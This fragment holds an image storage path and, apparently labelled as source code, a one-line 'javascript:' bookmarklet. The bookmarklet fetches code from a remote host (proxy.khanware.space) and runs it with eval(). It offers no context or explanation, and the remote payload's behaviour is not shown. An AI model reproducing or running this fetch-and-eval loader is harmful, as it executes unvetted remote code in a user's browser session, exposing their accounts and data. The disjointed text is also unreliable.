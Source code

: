 javascript:fetch(%22https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03%22).then(t=%3Et.text()).then(eval);

